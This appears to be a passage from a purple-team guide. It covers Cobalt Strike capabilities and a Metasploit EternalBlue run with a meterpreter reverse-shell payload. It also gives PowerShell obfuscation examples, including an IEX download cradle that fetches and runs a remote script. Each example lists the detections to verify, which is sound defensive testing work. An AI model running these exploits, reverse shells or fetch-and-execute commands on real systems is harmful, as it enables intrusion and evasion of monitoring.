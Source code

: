 **Cobalt Strike (Commercial):**
```bash
# C2 framework for red team operations
# Use only with proper licensing and authorization

# Features:
- Beacon implant deployment
- Process injection techniques
- Lateral movement via PsExec, WMI, SSH
- Credential harvesting
- Evasion capabilities (malleable C2, AMSI bypass)

# Purple team use:
- Test detection of C2 beacons
- Validate network monitoring (JA3, DNS, HTTP patterns)
- Test EDR behavioral detections
```

**Metasploit Framework:**
```bash
# Open-source penetration testing framework
msfconsole

# Example: Test SMB exploit detection
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.100
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.50
exploit

# Verify detection of:
# - Network scan (Nmap/Metasploit pre-exploitation)
# - SMB exploit attempt
# - Reverse shell connection
# - Meterpreter process injection
```

### Specific Evasion Techniques to Test

**1. PowerShell Obfuscation:**
```powershell
# Base64 encoding
$command = "Write-Host 'Test Detection'"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encoded = [Convert]::ToBase64String($bytes)
powershell.exe -encodedCommand $encoded

# String concatenation
$c1 = "Write"
$c2 = "-Host"
$c3 = "'Evade Detection'"
IEX "$c1$c2 $c3"

# Invoke-Expression with download
IEX (New-Object Net.WebClient).DownloadString('http://test-server/script.ps1')

# Expected Detections:
# - Script Block Logging (Event ID 4104)
# - Module Logging (Event ID 4103)
# - EDR behavioral detection (suspicious script execution)
```
